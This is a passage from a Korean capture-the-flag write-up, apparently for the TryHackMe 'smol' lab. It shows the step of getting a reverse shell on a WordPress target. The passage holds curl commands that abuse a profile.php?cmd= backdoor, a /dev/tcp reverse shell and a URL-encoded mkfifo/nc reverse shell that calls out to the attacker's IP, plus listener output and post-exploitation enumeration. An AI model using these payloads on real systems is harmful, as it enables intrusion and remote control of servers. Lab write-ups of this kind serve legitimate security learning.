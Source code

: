 5. **타겟에서 리버스 쉘 실행**

curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=sh /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=sh -i >& /dev/tcp/10.8.136.212/1234 0>&1

# 위 방식이 잘 작동하지 않음 -> 인코딩 필요

```python
import urllib.parse

text = "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.8.136.212 4444 > /tmp/f"
encoded = urllib.parse.quote(text)
print(encoded)
```

┌──(root㉿docker-desktop)-[/]
└─# python3 test.py
rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20sh%20-i%202%3E%261%20%7C%20nc%2010.8.136.212%201234%20%3E%20/tmp/f

curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20sh%20-i%202%3E%261%20%7C%20nc%2010.8.136.212%201234%20%3E%20/tmp/f

# reverse shell success

┌──(root㉿docker-desktop)-[/]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.136.212] from (UNKNOWN) [10.10.97.230] 51558
sh: 0: can't access tty; job control turned off

# privilege escalation

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ pwd
/var/www/wordpress/wp-admin
$ cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
